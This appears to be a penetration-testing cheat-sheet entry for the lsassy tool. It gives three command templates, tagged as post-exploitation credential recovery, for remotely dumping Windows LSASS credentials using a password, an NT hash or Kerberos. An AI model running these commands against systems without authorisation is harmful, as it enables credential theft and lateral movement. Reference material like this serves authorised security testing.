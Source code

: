 # Lsassy

## Lsassy basic usage with password (ip or range)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -d <domain> -u <user> -p <password> <ip>
```

## Lsassy basic usage with hash (ip or range)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -v -u <user> -H <nt_hash> <ip>
```

## Lsassy basic usage with kerberos (ip or range)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -d <domain> -u <user> -k <ip_range>
```
